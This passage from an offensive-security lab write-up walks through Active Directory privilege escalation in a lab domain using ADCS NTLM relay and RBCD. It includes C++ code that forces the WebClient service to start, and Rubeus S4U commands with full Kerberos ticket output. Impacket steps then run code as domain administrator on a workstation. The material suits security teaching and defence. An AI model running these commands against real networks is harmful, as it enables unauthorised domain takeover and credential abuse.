      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
      ZmZlbnNlLmxvY2Fs
[+] Ticket successfully imported!
```

.png>)

We can now try to access `WS01` `c$` share from `CA01` to confirm if we've gained administrative access over `WS01`:

```
ls \\ws01.offense.local\c$
```

.png>)

### WebClient Service

For the above attack to work, the target system `WS01` has to have the `WebClient` service running:

.png>)

`WebClient` service is not running on computers by default and normally you'd need admin rights to start it, however it's possible to force the service to start using the below code:


```cpp
// Code from https://www.tiraniddo.dev/2015/03/starting-webclient-service.html
#include <Windows.h>
#include <evntprov.h>

int main()
{
    const GUID _MS_Windows_WebClntLookupServiceTrigger_Provider =
    { 0x22B6D684, 0xFA63, 0x4578,
    { 0x87, 0xC9, 0xEF, 0xFC, 0xBE, 0x66, 0x43, 0xC7 } };

        REGHANDLE Handle;
    bool success = false;

    if (EventRegister(&_MS_Windows_WebClntLookupServiceTrigger_Provider,
        nullptr, nullptr, &Handle) == ERROR_SUCCESS)
    {
        EVENT_DESCRIPTOR desc;
        EventDescCreate(&desc, 1, 0, 0, 4, 0, 0, 0);
        success = EventWrite(Handle, &desc, 0, nullptr) == ERROR_SUCCESS;
        EventUnregister(Handle);
    }

    return success;
}
```


Below shows `WebClient` service is not running on `WS01` and we cannot start it, however, executing the above code (`webclient.cpp` compiled as `webclient.exe`) kicks off the `WebClient` service for us:

.png>)

## RBCD: Local Computer TakeOver / Local Privilege Escalation

It's also possible to leverage the ADCS NTLM relay + Resource Based Constrained Delegation (RBCD) to escalate privileges on a local computer, if regular domain users can create new machine/computer accounts in AD, which they are by default, as specified in the domain root object's attribute `ms-DS-MachineAccountQuota: 10`, as seen below:

.png>)


Ability to create machine accounts applies when talking about remote computer takeover too.


### Lab Setup

This part of the lab is setup with the following computers and servers:

* 10.0.0.5 - Kali box with NTLM relay;
* 10.0.0.7 - Windows worksation `WS01`. This is the box we will coerce to authenticate our Kali box, which will relay the authentication to `DC01` and setup the computer `WS01` for [RBCD attack](resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution.md);
* 10.0.0.6 - Domain Controller `DC01`;

### Calculating Hash

Building on the previous successful NTLM relay, where we forced the `WS01$` to authenticate to our Kali box (where our NTLM relay was listening), we got a new machine account `QUAIIVVE$` created with a password ``K_-Jzsb&uK!`TIH``. Let's re-calculate the password's hash:

```
PS C:\Users\spotless\Desktop> .\Rubeus.exe hash /domain:offense.local /user:QUAIIVVE$ /password:"K_-Jzsb&uK!``TIH"

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4


[*] Action: Calculate Password Hash(es)

[*] Input password             : K_-Jzsb&uK!`TIH
[*] Input username             : QUAIIVVE$
[*] Input domain               : offense.local
[*] Salt                       : OFFENSE.LOCALhostquaiivve.offense.local
[*]       rc4_hmac             : 3F55290748348504327CDA267FCCA190
[*]       aes128_cts_hmac_sha1 : C0CB489DC3C96151AC20AD6E2A2EC160
[*]       aes256_cts_hmac_sha1 : E73CA03A03704931A928806FDBA8993FDA47404A4EA1F66BA1A64EFD90AA5F69
[*]       des_cbc_md5          : A8B625105779671C
```

.png>)

### Impersonating Domain Admin on WS01

We can now perform the S4U against `WS01`, where we currently have low privileged access, but want to elevate to `administrator`:

```
PS C:\Users\spotless\Desktop> .\Rubeus.exe s4u /user:QUAIIVVE$ /aes256:E73CA03A03704931A928806FDBA8993FDA47404A4EA1F66BA1A64EFD90AA5F69 /impersonateuser:Administrator /msdsspn:host/ws01.offense.local /altservice:cifs /nowrap /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4

[*] Action: S4U

[*] Using aes256_cts_hmac_sha1 hash: E73CA03A03704931A928806FDBA8993FDA47404A4EA1F66BA1A64EFD90AA5F69
[*] Building AS-REQ (w/ preauth) for: 'offense.local\QUAIIVVE$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFIjCCBR6gAwIBBaEDAgEWooIEIzCCBB9hggQbMIIEF6ADAgEFoQ8bDU9GRkVOU0UuTE9DQUyiIjAgoAMCAQKhGTAXGwZrcmJ0Z3QbDW9mZmVuc2UubG9jYWyjggPZMIID1aADAgESoQMCAQKiggPHBIIDwwZceX7rzd6MgVy9Sp4ojTXQP5wVAuFouB0dIiYddAwR2292F6slGNoWvLGD50UnPxiNh3uTvYabPTdD4opUY498Sraj9ObM0/mL812DVYqO1bw7MdcWGKRl429SaW/Of8Prvn5DplNVV7Guv/3/HhIGpUNCdWs/CSm22EE8gHTNuy0Csbm/NhR5pvptMyxpFtUve52f4sxdQ2S9C2gY+Q5mKC6yW5dE3r5SHZd0J0rMp0p/wVIrtlTvZyDEfm9Vnk8EtqcS5JrtD92OZdhtfhMYtBdPOM8qrwKrz0/pHQv+VARUq2CuKr9bHaJ9perELUN8LUCQV4mRsMPB9BREXQEOk7BR9SN97g5r27jWT4xWKJFprXj+lUq2hPEyQLMG4ty4ACqv1pzmRT29VPJeA/SZXPraMkBtfcbaX3PX2XCuWP7FLxO9EcTIqNMrOM15woCLL5l18k2Z2laOMAPjsRThqRPDRHSHW01BffxiG8kAkvwW9MC/9nukUshpgNByVOgEpPFmkHAcPH9+P/QSikqsJk9mQ6ZUcvsX2nHnfFKUe+stpqilOPoxWN9yOgMuQoBddfuhQ97PStqNkRlIxffMSf61w1Yvwmh5zL8lzg+ylnqN3RfBZ8j6WJ29bZWSgjrullnowTAuU45jLIWjAGVm6JZU8XfVHMwclCI+mFZbrN6p4ms3u54o7ha28Wj5Z84pfkghl5kGE8blFzplvQ9SXbVKYxLDBSLx7AyweUdAf211gaq8UeuikWRj3IWOmqvUg3WHDNVjB5i3H1AU71OQcyKQrLB4ThLWw/Ik9VpgDjkeUpy04VRIFZhr4YccMM3flLkrw1yUtTce+AGQaZEiDMsbFb6e943DzWW3Dok90s60FCc54izuXikpqYImtZS6kFyTstYmwulj6sMl8wjSoS1fnLvJW3fJk1Z1Go+eDxzfpZu/C+vvGScyl94HkLE/qy3iTSj5UMtoDMiGImlFO0+4RJMZaoxDiQA/q/IhX5RzLSGSinl+MR7smqkJqQMrgtKTw4XWa0G6tcisKTXBIKF5qhLPhf0hPE8hell40cJFAU4pOr7EIVrLdZzj0ygCg+1yWHyoQ0QBywlPqcSdAJzT4EreLxSWq72qB373AiLDvtHR2duzqmrWQG7pL+SSc1ySN5PaQ88AsuT5z9YDEGDEjR+rqqi91B3kOgZKbPCZKABroljUnFyQ9Y5dbn+KUr8Zz+jxkHw5vEgQ4sxbJndVum4/uAObv/jnyv94PuU+d7VhRIUYvMhg1pilQPOeC6OB6jCB56ADAgEAooHfBIHcfYHZMIHWoIHTMIHQMIHNoCswKaADAgESoSIEIL6+8li8w8EpUu/s9n5HRvCeWxNCmjzJ0B3XDi7BldVooQ8bDU9GRkVOU0UuTE9DQUyiFjAUoAMCAQGhDTALGwlRVUFJSVZWRSSjBwMFAEDhAAClERgPMjAyMTA4MDUyMTM1MDZaphEYDzIwMjEwODA2MDczNTA2WqcRGA8yMDIxMDgxMjIxMzUwNlqoDxsNT0ZGRU5TRS5MT0NBTKkiMCCgAwIBAqEZMBcbBmtyYnRndBsNb2ZmZW5zZS5sb2NhbA==


[*] Action: S4U

[*] Using domain controller: dc01.offense.local (10.0.0.6)
[*] Building S4U2self request for: 'QUAIIVVE$@OFFENSE.LOCAL'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'QUAIIVVE$@OFFENSE.LOCAL'
[*] base64(ticket.kirbi):

      doIFVjCCBVKgAwIBBaEDAgEWooIEbzCCBGthggRnMIIEY6ADAgEFoQ8bDU9GRkVOU0UuTE9DQUyiFjAUoAMCAQGhDTALGwlRVUFJSVZWRSSjggQxMIIELaADAgEXoQMCAQGiggQfBIIEG7pIIqtIfCHKYJ41k2k+R5rEA9Xs+9hdpOyBseCmS6+7UKUAfDHoNuugUXdrP0sAczQS/dsImnKzE2rWwV0sutCPVBD0RtmZRTN3RqI5WSODF5yQH/WPO8YyCD1ZxLOdHrJctk/Kq8ElX6esRKqrsQDyJTxpJ4HCfIDEyT92Iyhg6Xr7qOrlqYZMEFOunRK/YrvF/EeFmfT7p80PTp5uy4qOsS1zZVB3QOFnV7ocVS2AUq/Ds/rEIRK896c6oAlokl60d/Gh5ori05srnzeqX0Ym1n5aDNKF4ImnD4ec6kYTjahds++6PjqQ2RdOyVTH7Gyq3Jsjlo0QVtxB1noqk4W1XbQ7dpyzjIXhSehiM5d6gES1u1iu+X0WWa+sYlSFgIV1U1Li+jk+1os2BX9OtpkZPdQF9oObZsUj0vwysyg21CoiM2tbZX5nvVca4XKfqF+EItG1PEImse3WDWT+xA3zTWiw+FZ2n0rzcY4hu67xvXW92ddjJAXPJqmOaUeDpbc2s1adFl8SKTgn5ec3pr4W4bRPTEgLHZRr+6fF7olvzNdY+V8RBZizfd3rIC7SBVBHuDl1IeUs+NVUz5293QxnCipntmhebEFjezLVvvHdbsyFXYf8y5WciN2+d95j5WCTX9bGhUKlGBbCJvamtlFZhrSvMZiIPLP6bGesI6mgXnK78X2gvlZcCCV+5a/rxCP/EaytNTGXbSo3aPHz6e7Czh8OuaKrmUPo7cLR2ZzurmUneVfyoVl0vQtL0ngwKC3ze2zhCX12u33JFY21VfnBHxQB79egNWe+IgKmqDk96/JBfAuJ7fYMob/ftchappSqMOerbkB0bZACSwbLkrngiZ8RhQ8iB07r/zd/ou+bStFa1QayJovGiC3s1tdhJcqQ5S0WadDdIELrJClYpSP30brFaIbxweiQl6H/WzPySiCd/hzUvXuvhDSwXV5960mllFSMxBkIhf81yCE67/ivUkZbSEOFunP8FbvCjHz23o10K4nEs6WqGavWBbUznX1KyvFPDem0+ELMxIrO2dqgjsBs+CVzm4dRi0WQr/VBbxArL6nxBxTey9HFZf1HZX3+XesrXUZBVfVyIwB1d0a2MmId00sOKhiZtnLwdb9OHBS4RU5HV70hlEZFOH4WSY6Pbv4e5ExxJOSeOGq8Ysh7Ex9WyEVcbVHXtmNalJGfxnvtjp4uF35Uvkg1zzFxCYG5XE+9tCn/QCl94xsiDGyYWwTqstXiGBoIZtDCs89RfWWo9NWqG1isKdPy9NQSq3htM1YjS9gv7G9b7YJaRNwgeb5s1Y1YqDDdaYGC3yfRnqrHStokGo8OSLwKD+F2ZQuQgODQiY7PfhBq5jCKpvAiTomwL43OxKswMBB4r+0XWrL0sZin8d7SUr6jgdIwgc+gAwIBAKKBxwSBxH2BwTCBvqCBuzCBuDCBtaAbMBmgAwIBF6ESBBD1cF+spxbTXDsrdF5xIsmdoQ8bDU9GRkVOU0UuTE9DQUyiGjAYoAMCAQqhETAPGw1BZG1pbmlzdHJhdG9yowcDBQAAoQAApREYDzIwMjEwODA1MjEzNTA2WqYRGA8yMDIxMDgwNjA3MzUwNlqnERgPMjAyMTA4MTIyMTM1MDZaqA8bDU9GRkVOU0UuTE9DQUypFjAUoAMCAQGhDTALGwlRVUFJSVZWRSQ=

[*] Impersonating user 'Administrator' to target SPN 'host/ws01.offense.local'
[*]   Final ticket will be for the alternate service 'cifs'
[*] Using domain controller: dc01.offense.local (10.0.0.6)
[*] Building S4U2proxy request for service: 'host/ws01.offense.local'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] Substituting alternative service name 'cifs'
[*] base64(ticket.kirbi) for SPN 'cifs/ws01.offense.local':

      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
[+] Ticket successfully imported!
```

Above and below shows how a TGS for `administrator@offense.local` is granted access to `cifs/ws01.offense.local`:

.png>)

### Decoding TGS to .kirbi

On a Kali box, let's base64 decode the TGS we got for `administrator@offense.local` to `cifs/ws01.offense.local` and save it as `admin.kirbi`:

```
echo "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" | base64 -d > admin.kirbi
```

.png>)

### Converting .kirbi Ticket to .ccache

Use impacket's tool `ticketConverter` to convert the `.kirbi` file to `.ccache` file like so:

```
examples/ticketConverter.py ../admin.kirbi admin.ccache
```

.png>)

### Exporting KRB5CCNAME

Now we need to export the `KRB5CCNAME` variable and point it to our `admin.ccache` file:

```
export KRB5CCNAME=admin.ccache
```

.png>)

### Executing Code as Domain Admin on WS01

We can now use impacket's `wmiexec` to execute commands on `WS01` as `administrator`:

```
examples/wmiexec.py -k -no-pass offense.local/administrator@ws01.offense.local
```



Privileged code execution on `WS01` can also be achieved using impacket's psexec:

.png>)


**Note**

RBCD for local privilege escalation could also be performed**:**

* by leveraging a compromised user with SPN set, assuming you have `WRITE` privilege over the computer's you want to compromise, AD object as described [here](https://orangecyberdefense.com/global/blog/sensepost/chaining-multiple-techniques-and-tools-for-domain-takeover-using-rbcd/).&#x20;
* via socks proxy and remote port forwarding as described [here](https://www.praetorian.com/blog/red-team-privilege-escalation-rbcd-based-privilege-escalation-part-2/), which reduces the need to have a Linux box inside the compromised network with an NTLM relay listener set up.


Note to self: what a beautiful attack vector this is.

## References












